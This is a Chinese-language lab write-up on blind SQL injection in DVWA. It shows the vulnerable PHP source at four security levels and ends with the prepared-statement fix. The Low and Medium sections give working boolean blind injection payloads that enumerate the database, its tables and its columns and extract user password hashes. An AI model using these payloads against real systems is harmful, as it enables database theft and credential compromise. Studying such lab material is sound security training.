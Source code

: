 	**SQL注入**：SQL注入就是指web应用程序对用户输入数据的合法性没有判断，前端传入后端的参数是攻击者可控的，并且参数下入数据库查询，攻击者可以通过构造不同的SQL语句来实现对数据库的任意操作。


## 1、LOW
**查看源码**
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '
<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '
<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

通过查看源码可以看到直接将用户输入的id值带入SQL语句中查询，存在返回”User ID exists in the database.“，不存在返回”User ID is MISSING from the database.“。因此在这里我们只能使用盲注。

通过代码可以看到我们需要使用`'`来闭合前面的`'`，用`#`来注释掉后面的内容。

**实战**<br />判断数据库名称长度,
```
输入：1' and length(database())=4#  返回:User ID exists in the database.
输入：1' and length(database())=5#  返回:User ID is MISSING from the database.
```

说明数据库名称长度为4

使用burp爆破出数据库名
```
1' and substr(database(),1,1)='a'#
```
![image-20210414161636813.png](_img/assets/1655880002677-4d82483c-309e-4f3f-a350-d291752aa122.png)

得到库名dvwa<br />![image-20210414161716191.png](_img/assets/1655880008249-ca6ff68a-b358-4eb5-b5d8-b7695a873299.png)

判断数据库dvwa中的表
```
1' and substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1)='a'#
```
![image-20210414162659468.png](_img/assets/1655880014010-9836d01e-2bc6-4b5f-9cbb-c57813d9f9cf.png)

![image-20210414162632646.png](_img/assets/1655880016524-cfb1be30-37e6-4089-b871-9d251e5695b2.png)

得到表gustbook和users

判断users中的字段
```
1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='a'#
```
![image-20210414164244111.png](_img/assets/1655880025865-823e2b90-1c1c-4416-9021-aa8405eed74f.png)

![image-20210414164307257.png](_img/assets/1655880028372-6d2a0ed3-ae1c-4fa5-938a-38cafe16537d.png)

得到users表中的字段：id、login······

判断第一个user，password
```
1' and substr((select concat_ws('-',user,password) from dvwa.users limit 0,1),1,1)='a'#
```
![image-20210414170504825.png](_img/assets/1655880035558-06918812-faa9-4754-8ac3-ea2eb3fa8530.png)

得到账户和MD5<br />![image-20210414170914553.png](_img/assets/1655880041739-77b889c9-1ca8-49b0-9f36-82042f895109.png)

解密得到明文<br />![image-20210414143459141.png](_img/assets/1655880049479-ee8cc0fc-55f5-49f2-9bf7-a2a932074df5.png)


## 2、Medium
**查看源码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '
<pre>User ID exists in the database.</pre>';
    }
    else {
        // Feedback for end user
        echo '
<pre>User ID is MISSING from the database.</pre>';
    }

    //mysql_close();
}

?>
```

**函数说明**
```
mysqli_real_escape_string（）
定义和用法
mysqli_real_escape_string（）函数转义在SQL语句中使用的字符串中的特殊字符。

语法
mysqli_real_escape_string(connection,escapestring);
connection:必需。规定要使用的 MySQL 连接。
escapestring:必需。要转义的字符串。编码的字符是 NUL（ASCII 0）、\n、\r、\、'、" 和 Control-Z。
```

在这里使用了mysqli_real_escape_string（）转义一些特殊字符，也就是说我们不能使用像Low中的`'1#`,不过我们可以使用`and`来进行注入，不需要进行过滤。而且可以看到这里是以表单的形式来然我们提交，web页面参数不可控，所以需要使用burp来抓包重放。修改参数id即可。

**实战**(以下步骤与Low级基本相同不进行详细叙述，仅提供payload)

判断数据库名称长度
```
1 and length(database())=4
```

判断数据库名称(需要将字母转换为ascii十六进制)
```
1 and substr((select database()),1,1)=0x61
```

贴出一个小脚本（也不知道python中有没有能够直接转换的函数）
```python
number = input("请输入要转换字符(连续输入不需要空格)：")numbers = list(number)with open('ascii16.txt','w') as asciis16:    for number1 in numbers:        number = hex(ord(number1))        asciis16.write(number + '\n')
```

得到数据库名字dvwa<br />![image-20210415151801837.png](_img/assets/1655880071524-93ac7220-dcd6-4224-821f-b1a269292fab.png)

判断数据库中的表
```
1 and substr((select table_name from information_schema.tables where table_schema=0x64767761 limit 0,1),1,1)=0x61
```

得到表gustbook，users<br />![image-20210415153338386.png](_img/assets/1655880078165-7e5e8499-9e17-402d-89bc-e7bbf6a51187.png)

判断users中的字段
```
1 and substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 0,1),1,1)=0x61
```

得到字段id、login······<br />![image-20210415154023783.png](_img/assets/1655880084376-ad799e91-fc85-4fc5-b793-1724b4581aeb.png)

判断字段user，password的第一个值
```
1 and substr((select concat_ws(0x2d,user,password) from dvwa.users limit 0,1),1,1)=0x61
```

得到第一个账号和MD5值<br />![image-20210415160019399.png](_img/assets/1655880102235-ea0fa526-7cc2-4ca3-9e5e-beb2a93c079c.png)

解密得<br />![image-20210414143459141.png](_img/assets/1655880104911-62c4e6cc-1d62-4faf-9110-a9e46a453171.png)



## 3、High
**查看源码**
```php
<?phpif( isset( $_COOKIE[ 'id' ] ) ) {    // Get input    $id = $_COOKIE[ 'id' ];    // Check database    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors    // Get results    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors    if( $num > 0 ) {        // Feedback for end user        echo '
<pre>User ID exists in the database.</pre>';    }    else {        // Might sleep a random amount        if( rand( 0, 5 ) == 3 ) {            sleep( rand( 2, 4 ) );        }        // User wasn't found, so the page wasn't!        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );        // Feedback for end user        echo '
<pre>User ID is MISSING from the database.</pre>';    }    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);}?>
```

通过源码可以看到将参数id放入cookie中，用cookie传递参数，而且使用sleep（）函数对时间盲注造成干扰，并且在 SQL查询语句中添加了LIMIT 1

通过查看SQL语句可以得知我们可以使用`'`来闭合前面的`'`，用`#`来注释掉后面的内容，来进行注入。

**实战**<br />以下类容基本与Low级相似，不进行详细叙述。


## 4、Impossible
**查看源码**

```php
<?phpif( isset( $_GET[ 'Submit' ] ) ) {    // Check Anti-CSRF token    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );    // Get input    $id = $_GET[ 'id' ];    // Was a number entered?    if(is_numeric( $id )) {        // Check the database        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );        $data->bindParam( ':id', $id, PDO::PARAM_INT );        $data->execute();        // Get results        if( $data->rowCount() == 1 ) {            // Feedback for end user            echo '
<pre>User ID exists in the database.</pre>';        }        else {            // User wasn't found, so the page wasn't!            header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );            // Feedback for end user            echo '
<pre>User ID is MISSING from the database.</pre>';        }    }}// Generate Anti-CSRF tokengenerateSessionToken();?>
```

可以看到，Impossible级别的代码采用了PDO技术，划清了代码与数据的界限，有效防御SQL注入，Anti-CSRF token机制的加入了进一步提高了安全性。

